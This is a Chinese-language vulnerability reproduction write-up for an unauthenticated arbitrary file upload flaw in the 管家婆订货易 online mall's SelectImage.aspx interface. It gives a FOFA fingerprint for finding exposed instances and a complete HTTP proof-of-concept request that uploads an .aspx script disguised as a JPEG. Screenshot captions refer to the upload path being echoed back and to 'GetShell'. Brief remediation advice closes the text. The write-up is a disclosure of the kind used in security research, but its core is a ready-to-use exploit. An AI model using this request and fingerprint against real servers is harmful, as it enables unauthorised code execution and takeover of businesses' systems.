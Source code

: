 
# 管家婆订货易在线商城任意文件上传漏洞复现

### 0x01 产品简介

    管家婆订货易，帮助传统企业构建专属的订货平台，PC+ 微信+APP+ 小程序+h5 商城 5 网合一，无缝对接线下的管家婆 ERP 系统，让用户订货更高效。支持业务员代客下单，支持多级推客分销，以客带客，拓展渠道。让企业的生意更轻松。

### 0x02 漏洞概述

  管家婆订货易在线商城 SelectImage.aspx 接口处存在任意文件上传漏洞，未经身份认证的攻击者可以通过该漏洞，上传恶意后门文件，深入利用可造成代码执行和服务器失陷。

### 0x03 复现环境

FOFA：icon\_hash="-1513302527"

![](assets/1700528522-2edeb0a6718db818ec38327a0c8f7c5f.png)

### 0x04 漏洞复现

PoC

```http
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15(KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="1.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--
```

![](assets/1700528522-aa6a149327baeb64615d1762454de251.png) 回显了完整的上传路径

![](assets/1700528522-549f111d0cdb662bb6c04a376d2ee8d1.png) GetShell

![](assets/1700528522-85ee7fe7c504df07154ead7338bfa04b.png)

![](assets/1700528522-56cdc874121aa2042512d488af898799.png)

![](assets/1700528522-9066b1e66edcb1717b894e3d119c4ba1.png) 

### 0x05 修复建议 

关闭互联网暴露面，文件上传接口处设置权限控制，添加黑白名单过滤

打补丁或升级至安全版本
